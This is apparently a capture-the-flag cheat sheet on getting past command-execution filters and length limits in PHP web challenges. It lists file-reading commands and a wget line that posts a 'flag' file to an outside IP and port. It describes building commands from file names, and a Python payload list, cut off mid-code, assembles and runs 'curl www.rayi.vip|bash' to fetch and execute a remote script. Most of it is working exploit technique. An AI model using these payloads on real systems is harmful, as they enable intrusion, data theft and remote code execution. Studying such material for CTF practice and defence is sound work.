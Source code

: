 ## Read file command

```php
ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sort|cut|xxd
```

Wget brings out without echo: `wget --post-file flag 47.100.120.123:2333`

## Length bypass

See [P Niu Article](https://www.leavesongs.com/SHARE/some-tricks-from-my-secret-group.html)
When executing linux commands, you can use backslash lines to break; the above rules are also applicable in bash scripts; you can use file names plus backslashes to form a command, use ls -t o to output the file name to the file, and use bash o to execute the script

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528091115666.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
Construct ls -t

```php
Command: >ls\\ #Generate a file with the file name ls\
Command: ls>_ #To ensure that ls in ls -t is in front, you must first use ls>_ to enter ls into file_
Command: >\\\ # Generate spaces between ls -t, a file with the file name \
Command: >-t\\ # Generate a file with the file name -t\
Command: >\>g # Generate a file with file name >g
Command: ls>>_ #Write all file names into file_
Command: sh _ # Execute the ls -t command spliced ​​from \ in order from top to bottom, and enter the result into file g
```

```python
import requests
from time import sleep
import urllib

payload = [
    # generate `ls -t>g` file
    '>ls\\',
    'ls>_',
    '>\ \\',
    '>-t\\',
    '>\>g',
    'ls>>_',
    
    # generate `curl www.rayi.vip|bash`
    # Note that the file name cannot start with.
    # Note that the file name cannot be duplicated
    # Note that vps can only use index, because file names cannot start with /
    # The tragedy is that my vps IP is exactly 0. I can only use the domain name
    '>sh\ ',
    '>ba\\',
    '>\|\\',
    '>p\\',
    '>vi\\',
    '>i.\\',
    '>y\\',
    '>ra\\',
    '>w.\\',
    '>ww\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',
    # exec
    'sh _',
```